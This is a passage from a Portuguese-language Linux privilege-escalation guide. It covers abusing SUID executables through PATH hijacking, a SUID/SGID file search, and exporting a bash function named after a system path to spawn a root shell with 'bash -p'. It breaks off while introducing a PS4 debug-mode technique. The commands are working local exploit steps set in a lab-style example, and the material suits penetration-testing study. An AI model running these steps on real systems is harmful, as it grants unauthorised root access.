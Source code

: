 -   Compliar:

```bash
gcc -o service ./service.c
```

Anexe o diretório atual (ou onde o novo executável do serviço está localizado) à variável PATH e execute o suid-env executável para obter um shell raiz:

```bash
PATH=.:$PATH /usr/local/bin/suid-env
```

---

### 6.4. SUID / SGID Executables ​​- Abusando de Recursos do Shell

#### Para bash --version inferior a 4.2-148

-   Encontre todas as aplicações SUID/SGID executáveis

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

Neste exemplo, assumimos que existe o mesmo /usr/local/bin/suid-env executável, mas desta vez, usaram um caminho absoluto para executar o serviço /usr/sbin/service para iniciar o servidor web apache2, e podemos saber isso graças ao seguinte comando:

```bash
strings /usr/local/bin/suid-env
```

Nas versões Bash <4.2-048 , é possível definir funções de shell com nomes que se assemelham a caminhos de arquivo e, em seguida, exportar essas funções para que sejam usadas em vez de qualquer executável real nesse caminho de arquivo.

-   verificar se o Bash instalado é inferior a 4.2-048

```bash
/bin/bash --version
```

-   Criação da função que irá executar o shell root, exportação da mesma, e execução do serviço para obtenção do shell root:

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service

/usr/local/bin/suid-env
```

#### Para bash --version superior a 4.4

Quando o bash usa o modo de depuração, usa variáveis de ambiente PS4, podendo assim criar arquivos através de um programa com privilégios root que o usuário tem permissões para executar. Ainda com o exemplo /usr/local/bin/suid-env
